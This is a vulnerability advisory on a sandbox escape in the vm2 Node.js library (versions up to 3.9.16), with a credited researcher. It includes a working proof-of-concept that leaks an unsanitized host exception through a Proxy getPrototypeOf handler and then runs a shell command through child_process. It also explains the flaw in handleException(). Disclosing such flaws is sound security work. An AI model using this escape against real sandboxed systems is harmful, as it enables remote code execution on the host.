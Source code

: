  # Sandbox Escape in vm2@3.9.16


## Summary

There exists a vulnerability in exception sanitization of vm2 for versions up to 3.9.16, allowing attackers to raise an unsanitized host exception inside `handleException()` which can be used to escape the sandbox and run arbitrary code in host context.


## Proof of Concept

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```


## Analysis

As host exceptions may leak host objects into the sandbox, code is preprocessed with `transformer()` in order to instrument the code with `handleException()` sanitizer function calls.

For `CatchClause` with `ObjectPattern` the code calls `handleException()` and then re-throws the sanitized exception inside a **nested try-catch**. ([lib/transformer.js:121](https://github.com/patriksimek/vm2/blob/3.9.16/lib/transformer.js#L121))

`handleException()` function is an alias of `thisEnsureThis()`, which in turn calls `thisReflectGetPrototypeOf(other)` (again, an alias of `Reflect.getPrototypeOf()`) to access the object's prototype ([lib/bridge.js:835](https://github.com/patriksimek/vm2/blob/3.9.16/lib/bridge.js#L835)).

However, this may be proxied through a `getPrototypeOf()` proxy handler which can by itself throw an unsanitized host exception, resulting in the outer catch statement receiving it.

An attacker may use any method to raise a non-proxied host exception ([test/vm.js:1082](https://github.com/patriksimek/vm2/blob/3.9.16/test/vm.js#L1082) for example) inside a `getPrototypeOf()` proxy handler, register it to an object and throw it to leak host exception, and finally use it to access host `Function`, escaping the sandbox.


## Impact

Remote Code Execution, assuming the attacker has arbitrary code execution primitive inside the context of vm2 sandbox.


## Credits

[Xion](https://twitter.com/0x10n) (SeungHyun Lee) of [KAIST Hacking Lab](https://kaist-hacking.github.io/)
